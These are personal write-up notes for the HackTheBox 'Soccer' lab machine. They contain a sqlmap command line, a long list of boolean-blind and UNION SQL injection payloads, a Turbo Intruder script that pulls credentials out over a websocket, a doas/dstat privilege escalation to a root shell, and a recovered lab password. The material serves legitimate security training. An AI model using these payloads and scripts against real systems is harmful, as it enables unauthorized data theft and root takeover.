 # Soccer \[Linux Easy]

{% embed url="https://0xdf.gitlab.io/2023/06/10/htb-soccer.html" %}
Best sqli explaination, make a script to automate this tho ik you can do it
{% endembed %}

## Report

A reverse shell exploit via TinyFileManager shows another vhost `soc-player.htb` at `/etc/nginx/sites-enabled/soc-player.htb`. This site has a login and input field which checks whether a ticket exists or not. This field is vulnerable to boolean blind SQLi and can be exploited to find database, table, column and field values respectively.

Eventually we find creds for user `player`. Login via SSH and user has SUID set for `doas`, refer GTFOBins and become root

## Cheatsheet

<pre class="language-sql"><code class="lang-sql">sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 1 -v 6
sqlmap --flush-session -u ws://soc-player.soccer.htb:9091 -D soccer_db --data '{"id": "1234"}' --dbms mysql --tables --batch --level 5 --risk 3 --threads 1 -v 6

"id":"12 or 1=1-- -"
"id":"12 UNION select 1,2,3-- -"
"id":"0 UNION select user,2,3 from mysql.user where user like 'r%'-- -"

"id": "0 OR (select count(*) from information_schema.schemata)=5"
"id":"0 OR MID((SELECT DISTINCT(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 4,1),2,1)='o'"

"id": "0 OR (select count(*) from soccer_db.accounts)=1"
"id": "0 OR MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='soccer_db' LIMIT 0,1),1,1)='a'"

"id": "0 OR (select count(*) from information_schema.COLUMNS WHERE TABLE_SCHEMA='soccer_db' and TABLE_NAME='accounts')=4"
"id": "0 OR MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='soccer_db' and table_name='accounts' LIMIT 0,1),1,1)='i'"
#ALTERNATIVE USING UNION - MATCH NUMBER OF COLUMNS AS ORIGINAL QUERY FIRST
"id": "0 UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='soccer_db' and TABLE_NAME='accounts' and COLUMN_NAME like 'i%'"

"id": "0 OR MID((SELECT username FROM soccer_db.accounts LIMIT 0,1),1,1)='p'"
"id": "0 OR MID((SELECT password FROM soccer_db.accounts LIMIT 0,1),1,1)='p'"
"id": "0 OR ASCII(MID((SELECT password FROM soccer_db.accounts LIMIT 0,1),1,1))=80"
<strong>#'p' and 'P' both returned true hence we use ASCII 
</strong>#Did not enumerate length of username and password

</code></pre>

```python
#Generate charlist
file =  open('smallcharlist.txt','w+') 
for i in range (97,123):
    file.write(chr(i)+'\n')
file.close()
```

```python
#Body in Request Panel of WebSocket Turbo Intruder
{
"id": "0 OR MID((SELECT username FROM soccer_db.accounts LIMIT 0,1),$1,1)='$2'"
}

import time
def queue_websockets(upgrade_request, message):
    connection1 = websocket_connection.create(upgrade_request)
    template = message
    with open('/home/jtripz/htb/scripts/smallcharlist.txt') as file: 
        for i in range(1,10):
            for line in file:
                time.sleep (0.17)
                payload = build_payload(template,str(i), line.strip())
                connection1.queue(payload)
            file.seek(0)

def build_payload (template, *args):
    return_payload = template
    for i in range (0, len(args)):
        return_payload = return_payload.replace('$'+str(i+1), args[i])
    return return_payload
    

def handle_outgoing_message(websocket_message):
    results_table.add(websocket_message)

def handle_incoming_message(websocket_message):
    if websocket_message.getLength()==13:
        results_table.add(websocket_message)
```

```
find / -perm -4000 2>/dev/null
find / -name doas.conf 2>/dev/null
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_jtripz.py
doas /usr/bin/dstat --jtripz
```

## Loot

### Creds

player:PlayerOftheMatch2022

### Proof

#### SQL Injection over websockets

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Right Click -> Extensions -> Send to WebSocket Turbo Intruder</p></figcaption></figure>

After so much research, we found a github cheatsheet for sqli enumeration without sqlmap in the SQLi Contd page. Using sqlmap in verbose gave a lot of info as well as the methodology and tables/schema to use.

`LIMIT` (offset \[start from 0], no. of rows), `MID/SUBSTRING` (string, pos \[start from 1], length)

It's very important to identify what kind of injection is actually possible (time, bool etc.) which is why payload all the things helps get you the initial structure for the query and the rest you can manipulate to your liking.

`sqlmap` showed time and boolean injections were possible\
`OR` and `UNION` injections were also possible as shown, one key difference being with `OR` we narrowed it down to a `True` or `False` singular value whereas `UNION` you need to match the number of columns the original query was structured. The following tables give us all the info we need

`information_schema.schemata`\
`information_schema.tables`\
`information_schema.columns`

Since this was over websockets (port 9091) our wfuzz commands we found wont work, plus this boolean based blind SQLi - every character has to enumerated individually

A valid response is 13 characters long, hence we only output response for replies with length 13

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

ASCII values from 32 to 127 cover all alphabets, numbers and special characters
